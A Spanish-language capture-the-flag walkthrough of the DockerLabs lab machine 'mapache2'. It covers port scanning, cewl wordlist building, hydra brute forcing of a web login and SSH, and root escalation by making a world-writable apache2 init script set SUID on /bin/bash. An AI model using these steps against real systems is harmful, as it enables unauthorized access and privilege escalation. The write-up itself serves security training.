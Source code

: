 Maquina "mapache2" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![mapache](./img/mapache2.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Mon Sep  2 20:00:22 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000022s latency).
Scanned at 2024-09-02 20:00:23 -03 for 11s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2e:9e:60:04:ea:da:48:98:7a:e3:eb:f5:8e:25:83:33 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPh6UqEY++e9Kf6SVPV8+FwzeSzn1Sb0a5BjOpOhmjfJq4/cPpz7ZuUzWpqkjPx71va69nLnOVJ9eLaCuIq8hi4=
|   256 64:0a:26:78:24:8e:1a:75:54:5a:58:bc:f4:18:ce:4e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIADa8Dt31nScLWTk1pM77PTDusyfx57GAuWtGyGFGRpA
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Hackerspace - Welcome
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
3306/tcp open  mysql?  syn-ack ttl 64
| fingerprint-strings: 
|   NULL: 
|_    We have to change this, I told Medusa to protect this more.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=9/2%Time=66D64388%P=x86_64-pc-linux-gnu%r(
SF:NULL,3C,"We\x20have\x20to\x20change\x20this,\x20I\x20told\x20Medusa\x20
SF:to\x20protect\x20this\x20more\.\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  2 20:00:34 2024 -- 1 IP address (1 host up) scanned in 11.43 seconds
```

Como vemos, los puertos abiertos son:

`22: OpenSSH`

`80: Apache httpd`

`3306: ????`

Si nos fijamos el 3306 no parece estar corriendo mysql ni nada y mas encima dice esto:

"We have to change this, I told Medusa to protect this more."

Para confirmar si realmente dice eso podriamos conectarnos con netcat para ver si nos dice ese mensaje:

```css
nc <ip> 3306
```

y como vemos en la salida, el mensaje es correcto, por lo que tenemos un posible usuario: "medusa"

Ahora que ya obtuvimos algo de información, podemos ir a el navegador y entrar en la ip para ver que hay:

![80](./img/80.png)

Como vemos es una página que no tiene mucha importancia pero tiene un panel de login, por lo que luego de probar, intento usar `cewl` para obtener las palabras de la página y guardárnoslas para usarlas con hydra :

```css
cewl http://<ip> > pass
```

una vez hecho eso ejecutamos hydra usando el usuario "medusa" y el diccionario:

```css
hydra -l medusa -P pass <ip> http-post-form "/login.php:username=medusa&password=^PASS^:Invalid credentials"
```

![hydra](./img/hydra.png)

Como vemos ya tenemos la contraseña.

Una vez iniciada la sesión veremos otra página inutil, pero al ver el codigo fuente se ve este mensaje:

```css
<!-- I hope my boss doesn't kill me, but I tell kinder what a mess medusa made with the message from the port. -->
```

parece que hay otro usuario llamado "kinder"

Probamos con el diccionario de antes:

```css
hydra -l kinder -P pass ssh://172.17.0.2
```

pero esto tampoco funciona, por lo que se me ocurre probar la contraseña "medusa" y gano acceso

### Credenciales:

`Kinder:medusa`

(con la "k" en mayusculas)

# INTRUSION

```css
ssh Kinder@<ip>
```

con contraseña "medusa".

# ESCALADA DE PRIVILEGIOS

Si ejecutamos un `sudo -l` vemos lo siguiente:

```css
Matching Defaults entries for Kinder on 50b2ab6877b6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User Kinder may run the following commands on 50b2ab6877b6:
    (ALL : ALL) NOPASSWD: /usr/sbin/service apache2 restart
```

podemos ver el servicio de apache2 en `/etc/init.d/apache2` y ver si oculta algo. Ahora si hacemos un `ls -la` en ese archivo veremos esto:

```css
-rwxrwxrwx 1 root root 8141 Aug 23 21:07 /etc/init.d/apache2
```

como lo podemos modificar simplemente con nano lo modificamos y la primeras 2 líneas nos deben quedar así:

```css
#!/bin/bash
chmod u+s /bin/bash
```

en resumen: Cambiamos "#!/bin/sh" por "#!/bin/bash" y agregamos un chmod debajo para darle permisos SUID a bash.

Ahora ejecutamos `sudo service apache2 restart` y listo, solo nos queda ejecutar `bash -p` y ya seremos root.

![root](./img/root.png)

Gracias por leer.